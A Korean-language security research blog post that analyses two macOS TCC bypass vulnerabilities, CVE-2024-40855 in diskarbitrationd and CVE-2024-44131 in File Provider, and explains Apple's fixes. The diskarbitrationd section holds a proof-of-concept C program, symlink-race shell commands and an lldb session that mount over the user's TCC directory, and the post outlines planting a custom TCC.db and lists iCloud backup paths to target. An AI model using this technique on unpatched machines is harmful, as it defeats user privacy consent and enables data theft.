

안녕하세요. clalxk 입니다! 
미래의 ~~사과털이범~~을 꿈꾸며 MacOS TCC Bypass 취약점을 가지고 왔습니다 ㅎㅎ 

[https://hackyboiz.github.io/2024/11/27/clalxk/CVE-2024-44175/](https://hackyboiz.github.io/2024/11/27/clalxk/CVE-2024-44175/) 

오늘 살펴볼 내용은 위 취약점과 연계됩니다! 

이전 글에서는 `diskarbitrationd` 시스템 데몬에 존재하는 취약점을 다루었는데요. 이 취약점을 이용하면 샌드박스를 우회하거나 사용자 파일 시스템을 통해 권한을 상승시킬 수 있었습니다. 이번 글에서는 샌드박스를 우회하는 것뿐만 아니라, 사용자의 **TCC(Transparency, Consent, and Control)** 디렉토리에 마운트할 수 있도록 허용하는 취약점인 **CVE-2024-40855**에 대해 다루려고 합니다. 이 취약점은 `diskarbitrationd`에서 Directory Traversal 공격을 수행합니다.


# 1. TCC Bypass?

TCC(Transparency, Consent, and Control)는 **Apple의 보안 프레임워크**로, 애플리케이션이 **민감한 사용자 데이터에 접근할 때 이를 관리하고 보호**하는 역할을 합니다. 이 TCC 메커니즘은 사용자가 ‘설정’ 앱을 통해 각 애플리케이션 별로 권한을 관리할 수 있습니다. 


앱을 실행했을 때, ‘마이크 권한을 허용하시겠습니까?’와 같은 팝업창을 보신 적이 있으신가요?

위와 같이 **TCC는 macOS의 ‘앱 권한 관리 시스템’** 이라고 할 수 있습니다.

이때, **사용자의 승인없이** 민감한 데이터(사진, 마이크, 위치 정보 등)에 무단으로 접근할 수 있는 방법을 찾아 공격하는 것을 **TCC Bypass** 취약점이라고 합니다.

# 2. 취약점 정보 및 분석

### CVE-2024-40855

> 해당 취약점은 macOS의 시스템 데몬인 diskarbitrationd에서 발생하며, TCC Bypass를 통해 Directory Traversal 공격을 수행합니다.
> 

### **Version Information**

macOS : 13.0 ≤ 14.6

### **diskarbitrationd**

`diskarbitrationd`는 3가지의 특징을 가지고 있습니다.

- 루트(root) 권한으로 실행
- 샌드박스 내에서도 접근 가능
- `com.apple.private.security.storage-exempt.heritable` 속성을 가지고 있어, 사실상 **Full Disk Access**을 가짐

위 3가지의 특징으로 인하여 `diskarbitrationd`는 샌드박스를 벗어나거나 루트 권한을 상승시킬 수 없도록 검증을 수행해야 하는데요. 샌드박스 검증은 사용자가 샌드박스를 우회할 수 없도록 할 뿐만 아니라, **TCC로 보호된 디렉터리에 마운트하는 것을 방지**해야 합니다. (이때, 권한 상승 검증은 별도로 처리됩니다.)

샌드박스 검증은 다음 세 가지를 기반으로 이루어집니다.

1. **마운트 경로(path) 검증**
    - 클라이언트가 `diskarbitrationd`에 마운트 지점을 전달할 때, `../` 요소가 있는지를 검사하여 Directory Traversal 이 불가능하도록 확인
    - **path resolution 발생 확인**
        - 만약 이후 단계에서 경로 변환이 발생하면, Symlink Attack에 대한 검증 무력화
2. **샌드박스 검증**
    - `diskarbitrationd`는 `sandbox_check_by_audit_token` 함수를 호출하여, 요청을 보낸 프로세스가 어떤 파일 및 디렉터리에 접근할 수 있는지 확인
3. **마운트 요청 시 커널 검증**
    - 외부 마운트 요청을 처리할 때 `k` 옵션을 사용
    - 이 옵션은 경로에 symlink가 포함된 경우 커널이 요청 거부

보통의 경우 위 순서대로 검증을 수행하게 됩니다.

### **클라이언트 측에서 마운트 경로 검증 우회 가능**

그러나 첫 번째 단계에서 취약점이 있었습니다. 마운트 경로 검증은 클라이언트 측에서 수행되며, 이는 `DiskArbitration` 프레임워크의 `DADiskMountWithArgumentsCommon` 함수에서 처리됩니다.

즉, 공격자가 이 프레임워크를 사용하지 않고 **직접 `diskarbitrationd`를 호출**하면, 클라이언트 측 검증을 완전히 우회할 수 있습니다. 이를 악용하면 `../` 요소를 포함한 경로를 `diskarbitrationd`에 전달할 수 있으며, 결과적으로 **샌드박스 검사를 우회하고 심볼릭 링크 검증까지 우회할 수 있습니다**.

아래는 `DADiskMountWithArgumentsCommon` 함수의 일부 코드입니다.

```c
__private_extern__ void DADiskMountWithArgumentsCommon( DADiskRef disk,
                               CFURLRef            path,
                               DADiskMountOptions  options,
                               DADiskMountCallback callback,
                               void *              context,
                               CFStringRef         arguments[],
                               bool                block )
{
...
    if ( path )
    {
        char * _path;
        _path = ___CFURLCopyFileSystemRepresentation( path );
        if ( _path )
        {
            char name[MAXPATHLEN];
            if ( realpath( _path, name ) )
            {
                path = CFURLCreateFromFileSystemRepresentation( kCFAllocatorDefault, ( void * ) name, strlen( name ), TRUE );
            }
            else
            {
                CFRetain( path );
            }
            free( _path );
        }
        else
        {
            CFRetain( path );
        }
    }
    status = kDAReturnBadArgument;
    if ( disk )
    {
        status = _DAAuthorize( _DADiskGetSession( disk ), _kDAAuthorizeOptionIsOwner, disk, _kDAAuthorizeRightMount );
        if ( status == kDAReturnSuccess )
        {
            status = __DAQueueRequest( _DADiskGetSession( disk ), _kDADiskMount, disk, options, path ? CFURLGetString( path ) : NULL, argument, callback, context, block );
        }
    }
...
}

```

위 코드에서 `realpath` 및 `CFURLCreateFromFileSystemRepresentation` 함수 호출이 `../` 요소를 제거하는 역할을 합니다. 그러나 이 검증 과정은 클라이언트 측에서 수행되므로, 공격자가 직접 `diskarbitrationd`를 호출하면 이를 **완전히 무력화**할 수 있습니다. `DiskArbitration` 프레임워크를 우회하여 **`diskarbitrationd`에 직접 ../ 요소를 포함한 경로를 전달**하면, 샌드박스를 우회하고 TCC 보호 디렉터리에 마운트하는 것이 가능해집니다.

### Explain 1

사용자의 `~/Library/Application Support/com.apple.TCC` 디렉터리를 마운트하는 방법을 통해 취약점을 분석하고자 합니다. 사용자 정의 `TCC.db`를 삽입하여, 새로운 TCC 규칙을 설정함으로써 TCC Bypass를 수행할 수 있습니다.

**1. `DAMount` 함수 호출**

```bash
/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC
```

위 경로를 사용하여 `DAMount` 함수를 호출합니다. 이때 클라이언트가 경로를 해석하지 않도록 주의해야 하며, `diskarbitrationd`가 정확히 동일한 경로를 받도록 해야 합니다.

**2. `sandbox_check_by_audit_token` 실행 시 심볼릭 링크 조작**

```bash
/private/tmp/starthere -> /private/tmp/1/2/3
```

`sandbox_check_by_audit_token` 검사가 실행될 때, 다음과 같은 심볼릭 링크를 생성합니다.

```bash
/private/tmp/Users/crab/Library/Application Support/com.apple.TCC
```

추가로 다음 디렉터리를 생성합니다.

```bash
/private/tmp/1/2/3/../../../Users/crab/Library/Application Support/com.apple.TCC
```

따라서 `sandbox_check_by_audit_token`이 경로를 확인할 때 변환 과정은 다음과 같습니다.

```bash
/private/tmp/Users/crab/Library/Application Support/com.apple.TCC
```

결과적으로 이 경로는 `/private/tmp/` 내부의 디렉터리에 마운트하는 것이 허용되므로 보안 검사를 통과할 수 있습니다.

**3. 심볼릭 링크 제거 및 마운트 실행**

```bash
/private/tmp/**starthere**/../../../Users/crab/Library/Application Support/com.apple.TCC
```

`sandbox_check_by_audit_token` 검사가 완료되면 심볼릭 링크를 삭제하고 빈 디렉터리로 대체합니다. 이후 `diskarbitrationd`는 외부 마운트 명령을 다시 실행하게 되며, 위와 같은 경로를 사용하게 됩니다.

```bash
/Users/crab/Library/Application Support/com.apple.TCC
```

하지만 이번에는 `starthere`가 심볼릭 링크가 아니라 디렉터리이므로, 최종 변환 과정은 위와 같습니다.

이제 이 경로에는 심볼릭 링크가 포함되어 있지 않으므로, 커널이 정상적으로 처리할 것입니다. 그리고 호출하는 프로세스가 `diskarbitrationd`이므로, 이는 `com.apple.private.security.storage-exempt.heritable` 권한을 가지며, 이를 통해 커널의 **MACF(Mandatory Access Control Framework) Sandbox 검사**도 우회할 수 있습니다. 따라서 이 방법은 샌드박스 내부에서도 작동합니다.

**4. TCC Bypass 및 샌드박스 탈출**

1-3 과정을 통해 **TCC Bypass**를 수행할 수 있습니다. 이후 **샌드박스를 탈출하려면** 비슷한 방식으로 `~/Library/Preferences` 디렉토리를 마운트하고, 사용자 정의 Terminal 환경설정 파일을 배치하여 Terminal이 열릴 때 특정 명령을 실행하도록 설정할 수 있습니다. 기본적으로, 이 취약점은 **Time Of Check Time Of Use (TOCTOU)** 버그이며, [이전 글](https://hackyboiz.github.io/2024/11/27/clalxk/CVE-2024-44175/)에서 설명했던 취약점과 유사한 방식으로 동작합니다.

---

### Explain 2

Explain 1의 내용을 디버거를 이용하여 수행해보겠습니다.

```c
#import <DiskArbitration/DiskArbitration.h>
#import <Foundation/Foundation.h>

int main(void) {
    DASessionRef session = DASessionCreate(kCFAllocatorDefault);
    DADiskRef disk = DADiskCreateFromBSDName(kCFAllocatorDefault, session, "/dev/disk6s1");
    CFDictionaryRef properties;
    CFURLRef diskurl = (__bridge CFURLRef)[NSURL fileURLWithPath:@"/dev/disk6s1"];
    CFURLRef url = (__bridge CFURLRef)[NSURL fileURLWithPath:@"/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC"];
    DADiskMount(disk, url, kDADiskMountOptionDefault, NULL, NULL);
    return 0;
}
```

`/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC` 경로에 디스크를 마운트하려고 시도합니다.

해당 코드를 컴파일하고 `lldb`를 사용하여 디버깅을 시작한 후, 다음과 같은 브레이크포인트를 설정합니다.

```bash
(lldb) breakpoint list
Current breakpoints:
1: name = 'realpath', locations = 1, resolved = 1, hit count = 0
  1.1: where = libsystem_c.dylib`realpath, address = 0x00000001921de874, resolved, hit count = 0 
2: name = 'DADiskMountWithArgumentsCommon', locations = 1, resolved = 1, hit count = 1
  2.1: where = DiskArbitration`DADiskMountWithArgumentsCommon, address = 0x000000019a1bdb48, resolved, hit count = 1 
3: address = DiskArbitration[0x0000000188325c1c], locations = 1, resolved = 1, hit count = 1
  3.1: where = DiskArbitration`DADiskMountWithArgumentsCommon + 212, address = 0x000000019a1bdc1c, resolved, hit count = 1 
4: name = '__DAQueueRequest', locations = 1, resolved = 1, hit count = 1
  4.1: where = DiskArbitration`__DAQueueRequest, address = 0x000000019a1bcde0, resolved, hit count = 1 
```

`diskarbitrationd` 프로세스에 `lldb`를 연결하고 `sandbox_check_by_audit_token`에 대한 브레이크포인트 설정

```
(lldb) breakpoint list
Current breakpoints:
2: name = 'sandbox_check_by_audit_token', locations = 1, resolved = 1, hit count = 4
  2.1: where = libsystem_sandbox.dylib`sandbox_check_by_audit_token, address = 0x000000019d5a61cc, resolved, hit count = 4 
```

심볼릭 링크 및 디렉터리 준비

```
ln -s /private/tmp/deep/1/2 /private/tmp/starthere
mkdir -p "/private/tmp/Users/crab/Library/Application Support/com.apple.TCC/"
```

---

**실행 후 LLDB 디버깅 과정**

1.프로그램을 실행하고 브레이크포인트에 도달함

```
(lldb) run
Process 1591 launched: '/Users/crab/m' (arm64)
Process 1591 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 2.1
```

2.`X1` 레지스터가 가리키는 메모리 덤프

```
(lldb) memory read -f p $x1
0x600000024060: 0x01000001fa131911 0x0001cc4fc6001d80 0x0800010060015821 0x0000600000f24000
```

3.경로 문자열 확인

```
(lldb) memory read -f s 0x0000600000f24000+16
0x600000f24010: "^file:///private/tmp/starthere/../../../Users/crab/Library/Application%20Support/com.apple.TCC/"
```

4.`__DAQueueRequest` 브레이크포인트에서 중지 후 `X4` 레지스터 값 확인

```
(lldb) register read $x4
      x4 = 0x0000600000020000
```

5.경로 문자열 확인

```
(lldb) memory read -f s $x4+16
0x600000020010: "Kfile:///private/tmp/Users/crab/Library/Application%20Support/com.apple.TCC/"
```

6.`X4` 레지스터를 원래 경로 값으로 덮어쓰기

```
(lldb) register write $x4 0x0000600000f24000
(lldb) c
Process 1606 resuming
```

7.`diskarbitrationd` 프로세스에서 `sandbox_check_by_audit_token` 브레이크포인트에서 멈춤

```
(lldb) c
Process 113 resuming
Process 113 stopped
* thread #2, queue = 'DAServer', stop reason = breakpoint 2.1
```

8.메모리 덤프를 통해 경로가 유지되고 있음을 확인

```
(lldb) memory read -f s 0x000000014ea0cc90
0x14ea0cc90: "/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC"
```

9.`sandbox_check_by_audit_token` 호출 후 반환 값 확인

```
(lldb) finish
(lldb) register read $x0
      x0 = 0x0000000000000000
```

`sandbox_check_by_audit_token`가 `0`을 반환하여 검사를 통과합니다. 

10.`starthere`를 심볼릭 링크에서 디렉터리로 변경 후 `diskarbitrationd` 실행 및 마운트 결과 확인

```
crab@see /tmp % rm starthere
crab@see /tmp % mkdir starthere

(lldb) c

crab@see /tmp % mount
...
/dev/disk6s1 on /Users/crab/Library/Application Support/com.apple.TCC (apfs, local, nodev, nosuid, journaled, noowners, mounted by crab)
```

### 패치 사항

Apple은 macOS Sequoia 15.0에서 해당 취약점을 수정했습니다.

```c
if ( mntpath )
{
    if ( ( _argument1 & kDADiskMountOptionNoFollow ) == 0 )
    {
        if ( realpath( mntpath, path ) )
        {
            CFTypeRef mountpath = CFURLCreateFromFileSystemRepresentation( kCFAllocatorDefault, ( void * ) path, strlen( path ), TRUE );
            if ( mountpath )
            {
                DARequestSetArgument2( request, CFURLGetString( mountpath ) );
                CFRelease ( mountpath );
            }
        }
        else
        {
            status = kDAReturnBadArgument;
        }
    }
}
```

path resolution이 클라이언트 측이 아니라, 요청이 들어올 때 `diskarbitrationd`에서 수행되는 것으로 수정되었습니다. 이를 통해 공격자가 `../` 요소가 포함된 경로를 전달하는 문제를 제거할 수 있으며, 이 경로는 일반적인 호출자들에게 기존과 동일한 동작을 유지하도록 했습니다. 단, 이 경로 검증 로직은 `kDADiskMountOptionNoFollow` 옵션이 제공되지 않은 경우에만 수행됩니다. 즉, 만약 `kDADiskMountOptionNoFollow`를 전달하면 여전히 원래의 공격을 수행할 수 있는 것이죠. 이를 차단하기 위한 두 번째 수정 사항이 `sandbox_check_by_audit_token`의 변경입니다.

```c
status = sandbox_check_by_audit_token(_token, "file-mount", SANDBOX_FILTER_PATH | SANDBOX_CHECK_ALLOW_APPROVAL | SANDBOX_CHECK_CANONICAL, path);
```

검증 과정에서 `SANDBOX_CHECK_CANONICAL` 옵션이 추가되었습니다. 이로 인해 경로에 심볼릭 링크나 디렉토리 탐색 요소(`../` 등)가 포함되어 있을 경우, 샌드박스 검증이 무조건 실패하도록 변경되어, 공격을 매우 초기 단계에서 차단할 수 있게 되었습니다.

# 3. 다른 유형의 TCC Bypass 취약점


### CVE-2024-44131

> 해당 취약점은 macOS 및 iOS 내의 원격 저장소(iCloud 등)와 동기화된 파일 및 폴더에 접근할 수 있도록 지원하는 확장 기능인 **File Provider**의 **TCC bypass** 취약점입니다. macOS와 iOS**의 Files.app과 fileproviderd 시스템 프로세스가 파일 작업을 관리할 때,** symlink 검증 오류로 인해 발생했습니다.
> 

### **Version Information**

macOS : 5.3 ≤ 14.7

### 취약점 정보 및 분석

**File Provider란?**
File Provider는 다른 앱이 원격 저장소와 동기화된 파일 및 폴더에 접근할 수 있도록 지원하는 확장 기능을 말합니다.

[링크](https://developer.apple.com/documentation/fileprovider)

📁 **Files.app**
iOS 및 macOS에서 파일을 관리하는 기본 파일 탐색기

사용자는 Files.app을 통해 iCloud Drive, 로컬 저장소, 외부 저장 장치, 그리고 서드파티 클라우드 서비스(예: Google Drive, Dropbox)의 파일을 탐색하고 조작할 수 있습니다.

⚙️ **fileproviderd**
File Provider 확장 기능을 관리하는 macOS 및 iOS의 시스템 프로세스

Files.app과 클라우드 저장소 간의 파일 동기화 및 액세스를 처리하는 중요한 역할을 합니다.


해당 취약점은 위 두가지 요소 **Files.app과 fileproviderd 시스템 프로세스를 악용한 Symlink 공격**을 기반으로 합니다.
사용자가 **Files.app을 이용해 파일을 이동하거나 복사**할 때, **백그라운드에서 실행 중인 악성 앱이 이를 가로채고 조작**할 수 있습니다. 공격자는 **fileproviderd의 높은 권한을 악용하여** 파일 이동 또는 복사 작업을 가로채면서도 **TCC 프롬프트(권한 요청 창)를 트리거하지 않습니다**.

 

**권한이 있는 프로세스가 파일을 복사, 이동, 삭제할 때** 공격자가 **symlink race condition이나 경로 탐색 path traversal 공격**을 수행하지 못하도록 방어 기법이 적용되어야 합니다. 대부분의 파일 작업 API는 **출발지/목적지 파일이 심볼릭 링크인지 확인하는 기능**을 제공하며, 만약 **심볼릭 링크가 포함되어 있다면 작업을 중단**하도록 설계되어 있습니다.

그러나 해당 취약점에서는 **파일 작업을 시작하기 직전에 최종 경로에 심볼릭 링크를 생성하는 대신, 작업이 진행되는 도중에 두 번째 마지막 디렉터리 수준에서 심볼릭 링크를 삽입하면 기존 검증 로직을 우회**할 수 있었습니다.



기존 심볼릭 링크 공격 방식은 **파일 경로의 마지막 부분(파일 자체 또는 디렉터리)에 symlink를 추가**하는 방식이 많았지만, 보안 검증을 통해 탐지되어 공격이 실패하게 됩니다. 


해당 취약점에서 사용된 공격 기법은 기존과 달리 파일 복사가 시작된 후, **복사 경로의 "상위 디렉터리"에 심볼릭 링크를 삽입**하여 기존의 Symlink 검사를 우회합니다. 

기존에는 최종 파일/디렉터리 이름만 확인했기 때문에 공격이 실패했으나, 해당 취약점에서 사용된 기법에서는 파일 이동 중에 경로를 변경하여 중간에 Symlink 추가해 검사를 우회하여 공격에 성공했습니다. 이를 통해 **TCC 프롬프트 없이 파일을 탈취하거나, 권한이 필요한 파일을 복사할 수 있습니다.** 

### **fileproviderd가 접근할 수 있는 경로**


- fileproviderd는 `/var/mobile/Library/Application Support/FileProvider/AccessControl.db`에 접근할 수 있습니다. → 이 데이터베이스에는 Files 및 Folders 시스템과 상호작용한 앱 목록이 포함되어 있어, 악성 행위자가 이를 악용할 수 있습니다.


### **주요 타겟 데이터 경로 예시**

1. `/var/mobile/Library/Mobile Documents/com~apple~Pages`→ Apple Pages 앱의 백업 문서
2. `/var/mobile/Library/Mobile Documents/com~apple~CloudDocs`→ 사용자가 수동으로 iCloud Drive에 저장한 파일 (다운로드 폴더 포함)
3. `/var/mobile/Library/Mobile Documents/57T9237FN3~net~whatsapp~WhatsApp`→ WhatsApp 백업 데이터 (UUID가 아닌 고정된 식별자 사용)

공격자는 이 방법을 사용하여 주요 타겟 데이터 경로인 "/var/mobile/Library/Mobile Documents/" 아래에 있는 다양한 파일과 디렉토리를 복사, 이동 또는 삭제해 자사 및 타사 앱과 관련된 iCloud 백업 데이터에 접근하고 이를 빼낼 수 있습니다. 


### Ref

https://www.jamf.com/blog/tcc-bypass-steals-data-from-icloud/

https://zeroclick.sh/blog/macos-tcc/

https://www.cyberlibrary.fr/en/docs/old/macos-tcc-bypasses

https://eclecticlight.co/2023/02/10/privacy-what-tcc-does-and-doesnt/

https://www.kandji.io/blog/macos-audit-story-part2